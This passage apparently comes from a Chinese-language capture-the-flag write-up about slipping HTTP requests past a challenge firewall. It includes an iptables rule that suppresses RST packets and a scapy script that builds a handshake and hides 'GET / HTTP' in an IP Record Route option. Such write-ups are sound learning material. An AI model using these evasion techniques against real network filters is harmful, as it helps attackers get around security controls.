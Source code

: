 发是发过去了，确实没触发 RST，但是服务器也没响应，等到第 10 秒发来 FIN+ACK。

换 WSL2，改用 tcpdump 抓包。Linux 没有 Windows 的问题，可以正常用 `send`
发送。但是 Linux 内核收到 SYN+ACK 时会发 RST，按知乎文章里的说明用
iptables DROP 掉。

```shell
sudo iptables -A OUTPUT -p tcp --tcp-flags RST RST -d 192.168.23.1 -j DROP
```

还是一样的静默 10s 然后 FIN+ACK。一顿测试后发现 GET 也不行，而且当我只 fragment 到
TCP 流第一个字节时，服务器会发 duplicate ack (ack=1)，看来只要 fragment
了就收不到。

看 [RFC 791](https://datatracker.ietf.org/doc/html/rfc791) 要求 IP 层至少支持
68 字节不 fragment，难道是 fragment 设置太小了？那样要把 IP 头填充到上限 60
字节附近。看前两问通过人数很接近，不像是这么难的题目。

沮丧之下干脆不 fragment 了，直接发送。居然成功了。测试发现用第一问的做法就行，发 1 到
3 个字节时不会触发防火墙，应该是 `0 >> 24 = 0x50` 由于剩下的数据不够 4 字节没有执行。

flag3 要求 0 到 50 的范围内含有 `"GET / HTTP"`。我们可以把它放到 IP options 里，
还是读 RFC 791，我选了看起来比较随意的 Record Route。scapy 的文档不太好懂，我看了
<https://allievi.sssup.it/techblog/archives/631>
才知道怎么写。加上 IP options 后要连 VPN，否则连 SYN+ACK
都收不到。脚本没处理响应，要用 Wireshark 看。

```python
from scapy.all import *
import scapy.layers.inet
import scapy.sendrecv

ip = '192.168.23.1'
port = 18082
sport = 9028
iface = 'OpenVPN Data Channel Offload'

with open('s.txt', 'rb') as f:
    payload = f.read()

ip = scapy.layers.inet.IP(dst=ip, options=IPOption(b'\x07\x0f\x10GET / HTTP\x00\x00\x00'))

#产生SYN包（FLAG = S 为SYN）
answered, unanswered = scapy.sendrecv.srp(
    ip / scapy.layers.inet.TCP(dport=port,sport=sport,flags='S',seq=17),
    verbose = False,
    iface=iface,
    timeout=1,
)
#第一层[0]位第一组数据包
#第二层[0]表示发送的包，[1]表示收到的包
#第三层[0]为IP信息，[1]为TCP信息，[2]为TCP数据
tcpfields_synack = answered[0][1][TCP].fields

sc_sn = tcpfields_synack['seq'] + 1
cs_sn = tcpfields_synack['ack']
print(sc_sn)
print(cs_sn)

#发送ACK(flag = A),完成三次握手！
scapy.sendrecv.srp(
    ip / scapy.layers.inet.TCP(dport=port,sport=sport,flags='A',seq=cs_sn,ack=sc_sn),
    verbose = False,
    iface=iface,
    timeout=0.01,
)

```